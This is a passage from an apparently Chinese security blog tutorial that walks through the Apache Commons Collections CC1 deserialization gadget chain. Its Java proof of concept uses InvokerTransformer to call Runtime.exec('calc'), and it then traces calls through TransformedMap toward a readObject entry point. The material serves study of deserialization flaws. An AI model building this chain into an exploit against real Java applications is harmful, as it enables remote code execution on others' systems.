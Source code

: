 测试使用 `InvokerTransformer` 类的 `transformer` 方法能否弹出计算器，成功弹出；

```java
package com.mewhz.cc1;

import org.apache.commons.collections.functors.InvokerTransformer;

public class Main {
    public static void main(String[] args) throws Exception {

        Runtime runtime = Runtime.getRuntime();
        // 获取 Runtime 对象

        new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"}
        ).transform(runtime);
        /*
            构造方法接收三个参数
            1. 执行的方法名，字符串类型
            2. 执行的方法参数类型，类数组
            3. 执行的方法参数值，bject 数组
            transform 方法可以执行传递的对象的某个方法
         */
    }
}
```

找到链子的尾部，接下来继续寻找哪个方法调用了`InvokerTransformer` 类的 `transformer` 方法。

在 `transformer` 方法名，右键 -> 查找用法；

![image-20240311165828057](https://pic.mewhz.com/blog/image-20240311165828057.png)

寻找的过程中，主要看方法名不是 `transformer` 的调用，这样才能够形成一条完整的利用链，最后的目的是找到反序列化漏洞的入口：`readObject` 方法。

找到了 `TransformedMap` 类的 `checkSetValue` 方法调用了 `transformer`：

```java
// TransformedMap
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

查看 `TransformedMap` 的构造方法，相当于传递两个 Transformer，分别对参数中 Map 的 key 和 value 进行操作：

```java
// TransformedMap
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}
```

